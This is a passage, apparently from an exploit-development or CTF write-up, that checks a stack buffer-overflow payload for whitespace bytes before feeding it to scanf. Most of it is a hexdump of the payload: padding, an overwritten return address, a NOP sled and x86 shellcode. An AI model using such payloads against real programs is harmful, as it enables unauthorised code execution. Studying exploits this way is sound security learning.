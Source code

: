 We can verify that our shellcode doesnt contain any whitecharacters to stop `scanf` from reading using [this small C program](./scanf-test.c):

```bash
$ python -c 'print "hellofriend\x0b\hello"' | ./scanf-test
hellofriend
$ echo -n "/faultier/" >> in
$ cat in | ./scanf-test | xxd
0000000: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000010: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000020: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000030: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000040: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000050: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000060: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000070: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000080: 5045 5349 5045 4449 5045 4250 c8d2 ffff  PESIPEDIPEBP....
0000090: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000e0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000f0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000100: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000110: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000120: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000130: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000140: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000150: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000160: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000170: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000180: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000190: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001e0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001f0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000200: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000210: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000220: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000230: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000240: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000250: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000260: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000270: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000280: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000290: 6a68 b806 0606 5205 2929 2921 50b8 0639  jh....R.)))!P..9
00002a0: 4045 0529 2929 2950 89e3 31c9 6a41 5883  @E.))))P..1.jAX.
00002b0: e836 99cd 802f 6661 756c 7469 6572 2f0a  .6.../faultier/.
```
